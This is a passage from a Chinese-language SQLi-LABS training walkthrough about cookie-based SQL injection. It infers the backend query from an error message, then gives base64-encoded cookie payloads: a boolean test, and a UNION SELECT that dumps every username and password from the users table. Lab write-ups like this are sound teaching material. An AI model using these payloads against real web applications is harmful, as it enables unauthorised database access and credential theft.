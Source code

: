 + 根据错误信息我们可以尝试推断出该SQL语句。

```sql
select column1, ... from table where cookie = "$cookie" limit 0, 1;
```

+ 接下来开始构造payload进行注入。

```sql
YWRtaW4iIGFuZCAxPTEgLS0g
```

![image-20211016212116737](../../images/SQLi-LABS/image-20211016212116737.png)

+ 注入成功，接下来我们获取所有用户数据。这里我们可以从Less-21的payload修改一下。

```sql
IiB1bmlvbiBzZWxlY3QgMSwoc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSkgZnJvbSB1c2VycyksKHNlbGVjdCBncm91cF9jb25jYXQocGFzc3dvcmQpIGZyb20gdXNlcnMpIC0tIA==
```
